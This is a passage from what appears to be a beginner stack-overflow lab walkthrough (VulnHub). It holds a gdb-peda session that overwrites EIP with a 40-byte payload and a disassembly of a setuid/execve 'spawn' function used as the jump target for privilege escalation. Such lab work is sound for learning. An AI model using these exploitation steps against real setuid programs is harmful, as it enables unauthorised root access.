 The offset is at 36 bytes, so assuming 4 more would overwrite the `EIP` register and make it user controllable.

```bash
gdb-peda$ r $(python2 -c 'print "A" * 36 + "B" * 4')
[----------------------------------registers-----------------------------------]
EAX: 0x2f ('/')
EBX: 0x41414141 ('AAAA')
ECX: 0x1
EDX: 0xf7fa9890 --> 0x0
ESI: 0xffffd5a0 --> 0x2
EDI: 0xf7fa8000 --> 0x1d9d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd550 --> 0xffffd700 --> 0x3e9
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd550 --> 0xffffd700 --> 0x3e9
0004| 0xffffd554 --> 0x3e9
0008| 0xffffd558 --> 0x3e9
0012| 0xffffd55c --> 0x56556289 (<main+37>:	mov    DWORD PTR [ebp-0x1c],eax)
0016| 0xffffd560 --> 0xf7fa83fc --> 0xf7fa9200 --> 0x0
0020| 0xffffd564 --> 0x56559000 --> 0x3efc
0024| 0xffffd568 --> 0xffffd640 --> 0xffffd7af ("SHELL=/bin/bash")
0028| 0xffffd56c --> 0x3e9
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Providing 4 more bytes of B character, shows that `EIP` is controllable at 40 bytes.

Run the program once inside gdb-peda and crash it, then obtain the address of the `spawn` function.
The address should be as follows after the first run of the program.

```bash
gdb-peda$ pd spawn
Dump of assembler code for function spawn:
   0x565561e9 <+0>:	push   ebp
   0x565561ea <+1>:	mov    ebp,esp
   0x565561ec <+3>:	push   ebx
   0x565561ed <+4>:	sub    esp,0x4
   0x565561f0 <+7>:	call   0x565560f0 <__x86.get_pc_thunk.bx>
   0x565561f5 <+12>:	add    ebx,0x2e0b
   0x565561fb <+18>:	sub    esp,0xc
   0x565561fe <+21>:	push   0x0
   0x56556200 <+23>:	call   0x56556090 <setuid@plt>
   0x56556205 <+28>:	add    esp,0x10
   0x56556208 <+31>:	sub    esp,0x4
   0x5655620b <+34>:	push   0x0
   0x5655620d <+36>:	push   0x0
   0x5655620f <+38>:	lea    eax,[ebx-0x1ff8]
   0x56556215 <+44>:	push   eax
   0x56556216 <+45>:	call   0x56556080 <execve@plt>
   0x5655621b <+50>:	add    esp,0x10
   0x5655621e <+53>:	nop
   0x5655621f <+54>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x56556222 <+57>:	leave
   0x56556223 <+58>:	ret
End of assembler dump.
```


[1]: https://www.vulnhub.com/entry/stack-overflows-for-beginners-101,290/	"IntroToStackOverflow"
[2]: https://github.com/longld/peda
[3]: <http://shell-storm.org/shellcode/files/shellcode-399.php>
[4]: <https://www.exploit-db.com/shellcodes/46809>